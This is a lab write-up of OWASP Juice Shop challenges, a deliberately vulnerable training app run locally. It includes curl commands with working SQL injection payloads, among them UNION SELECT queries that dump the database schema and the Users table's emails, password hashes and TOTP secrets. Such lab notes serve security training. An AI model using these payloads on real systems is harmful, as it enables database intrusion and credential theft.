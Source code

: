 # Juice Shop

Resources

* [Official documentation](https://owasp.org/www-project-juice-shop)
* [Pwning OWASP Juice Shop](https://help.owasp-juice.shop)

Local setup

```bash
# starts vulnerable box
hckctl box start vulnerable/owasp-juice-shop

# starts attack box
hckctl box start parrot-sec

# default password: parrot
# vnc/noVNC copy&paste clipboard: CTRL+SHIFT+C/V
vncviewer localhost:5900

# install burp
burpsuite

# install add-on
# name: burpsuite
# address: localhost
# port: 8080
install_firefox_foxy_proxy
```

## Challenges

* [Challenge hunting](https://help.owasp-juice.shop/part2/)

### Finding the Score Board

Guess link `http://box-owasp-juice-shop-<RANDOM>:3000/#/score-board`

### Injection

Resources

* [SQL injection](https://portswigger.net/web-security/sql-injection)

Intercept request with burp and look for a request with parameters

```bash
# send to intruder
#GET /rest/products/search?q=';

# show SQLi vulnerability
curl -sS -H "Accept: application/json" "http://box-owasp-juice-shop-<RANDOM>:3000/rest/products/search?q=foo';" | jq
# output
{
  "error": {
    "message": "SQLITE_ERROR: near \";\": syntax error",
    "stack": "Error: SQLITE_ERROR: near \";\": syntax error",
    "errno": 1,
    "code": "SQLITE_ERROR",
    "sql": "SELECT * FROM Products WHERE ((name LIKE '%foo';%' OR description LIKE '%foo';%') AND deletedAt IS NULL) ORDER BY name"
  }
}
```

Order the Christmas special offer of 2014

```bash
curl -sS -H "Accept: application/json" "http://box-owasp-juice-shop-<RANDOM>:3000/rest/products/search?q=2014%'+AND+deletedAt+IS+NOT+NULL));--" | jq

# with firefox or burp edit and send a POST request with ProductId=10
#http://box-owasp-juice-shop-0eruj:3000/api/BasketItems
#{"ProductId":10,"BasketId":"6","quantity":1}
```

Exfiltrate the entire DB schema definition via SQL Injection

```bash
# Products table has 9 columns (see json above)
# to fix "SQLITE_ERROR: SELECTs to the left and right of UNION do not have the same number of result columns"
# add N static columns in order to match them
curl -sS -H "Accept: application/json" "http://box-owasp-juice-shop-<RANDOM>:3000/rest/products/search?q=foo%'))+UNION+SELECT+name,sql,'a','b','c','d','e','f','g'+FROM+sqlite_master+WHERE+type='table';--" | jq '.data | map({"id":.id,"name":.name})'
```

Log in with the (non-existing) accountant without ever registering that user

```bash
TODO
```

Retrieve a list of all user credentials via SQL Injection

```bash
curl -sS -H "Accept: application/json" "http://box-owasp-juice-shop-<RANDOM>:3000/rest/products/search?q=foo%'))+UNION+SELECT+id,username,email,password,role,deluxeToken,totpSecret,isActive,createdAt+FROM+Users;--" | jq '.data'
```
